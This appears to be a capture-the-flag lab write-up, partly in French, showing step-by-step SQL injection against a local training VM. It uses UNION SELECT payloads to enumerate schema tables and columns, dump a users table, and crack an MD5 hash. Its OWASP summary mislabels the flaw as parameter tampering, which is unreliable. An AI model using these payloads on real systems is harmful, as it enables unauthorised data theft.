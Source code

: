 # Breach 2

## Step by Step

### 1 : Inspect page http://192.168.56.104/?page=member

![alt text](image.png)

### 2 : 
#### Tests: 5 UNION SELECT 1,2 
![alt text](image-1.png)

ON ROUVE LE NOM DES DB ET TABLE

`5 or 1=1 UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.tables`

ON TROUVE LE NOM DES TABLES ET DES COLUMNS
`5 or 1=1 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns`

ON TROUVE LES AUTRES COLONNES DE USERS qui contiennent potentiellement le flag

`5 or 1=1 UNION SELECT Commentaire,countersign FROM users`

- ![alt text](image.png)


- ![alt text](image-1.png)

### 3 :  MD5
 * 5ff9d0165b4f92b14994e5c685cdce28
 * FortyTwo



## Summary
According to OWASP this vulnerabily is a :
* Hidden Field Tampering
* Web Parameter Tampering
* A01 – Broken Access Control


# Ressources 
* https://owasp.org/www-community/attacks/Web_Parameter_Tampering   
* https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html